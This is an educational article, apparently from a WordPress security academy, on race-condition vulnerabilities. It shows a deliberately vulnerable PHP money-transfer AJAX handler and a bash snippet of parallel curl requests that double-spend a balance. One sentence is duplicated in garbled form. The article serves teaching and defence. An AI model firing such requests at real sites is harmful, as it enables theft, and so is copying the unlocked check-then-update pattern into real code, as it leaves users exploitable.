 ```yaml
---
title: Race Condition
head:
    - tag: title
      content: Learn about Race Condition
contributors:
    - dhakalananda
---
```




## Introduction

This article covers cases of possible Race Condition on WordPress. A race condition occurs when the same component is requested in parallel, leading to multiple processes accessing and modifying shared resources simultaneously, which can result in duplicate operations, unauthorized actions, or unexpected behavior due to the lack of proper synchronization mechanisms.

<LinkCard
  title="Learn how to secure your code against Race Condition"
  href="/academy/wordpress/securing-code/race-condition/"
/>

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_send_money", "send_money");

function send_money() {
    global $wpdb;

    $amount      = urldecode( $_GET['amount'] ?? '' );
    $receiver = urldecode( $_GET['receiver_id'] ?? '' );
    $sender = get_current_user_id();
    
    // Check balance
    $balance = $wpdb->get_var($wpdb->prepare(
        "SELECT balance FROM bank_accounts WHERE user_id = %d", $sender
    ));

    if ($balance < $amount) {
        return "Not enough balance.";
    }

    // Deduct amount
    $wpdb->query($wpdb->prepare(
        "UPDATE bank_accounts SET balance = balance - %d WHERE user_id = %d",
        $amount, $sender
    ));

    // Send amount
    $wpdb->query($wpdb->prepare(
        "UPDATE bank_accounts SET balance = balance + %d WHERE user_id = %d",
        $amount, $receiver
    ));

    return "Money sent successful!";
}
```

1. Attacker has a balance of $12
2. The attacker sends two requests at the exact same time to send $10 from the account
3. Both requests pass through the `if ($balance < $amount)` check at the same time and return `false` leading to both requests proceeding forward
4. The database operation is done and the transaction is successful for two $10 to another account.

To exploit this, any authenticated user needs to perform two or more parallel POST requests to the `/wp-admin/admin-ajax.php` endpoint specifying the needed parameters.form two or more parallel POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed parameters.

<Aside type="tip">
This might not work on a single try. Trying to send more than two concurrent requests is recommended to increase the chance of success.
</Aside>

```bash
curl "<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=send_money&amount=10&receiver_id=1" & \
curl "<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=send_money&amount=10&receiver_id=1" & \
curl "<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=send_money&amount=10&receiver_id=1" & \
curl "<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=send_money&amount=10&receiver_id=1" &
wait
```
